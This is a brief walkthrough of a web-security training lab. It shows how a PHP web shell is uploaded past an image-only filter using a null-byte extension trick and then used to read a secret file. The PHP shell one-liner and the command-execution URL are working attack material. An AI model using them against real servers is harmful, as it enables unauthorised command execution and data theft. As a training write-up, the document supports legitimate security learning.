

# [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

## Steps

- Went to the login page, and logged in with provided credentials from the lab description (wiener:peter).
- On the my account page uploaded simple `image.php` file instead of actual profile image.


`image.php`:

```php
<?php system($_GET['cmd']); ?>
```

- Got response message:

```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

- Renamed file to `image.php.jpg` and uploaded it again.
- Opened request in Repeater tab and inserted `%00` between `.php` and `.jpg` and send request again.



- Opened url `https://0a3c001b04841cdd82a5565000220090.web-security-academy.net/files/avatars/image.php?cmd=cat%20/home/carlos/secret` to run the `cat /home/carlos/secret` command and obtain the secret flag.
